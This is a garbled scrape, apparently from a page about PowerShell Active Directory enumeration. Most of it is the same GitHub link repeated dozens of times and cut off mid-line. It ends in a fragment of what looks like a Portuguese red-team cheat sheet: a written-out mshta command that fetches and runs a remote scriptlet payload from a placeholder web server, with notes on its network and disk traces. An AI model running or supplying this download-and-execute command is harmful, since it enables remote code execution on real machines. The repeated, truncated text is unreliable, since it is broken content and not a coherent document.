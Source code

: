 - [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](
```bash
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```
Processo realizando chamada de rede: **mshta.exe**\
Carga gravada no disco: **cache local do IE**
```bash
```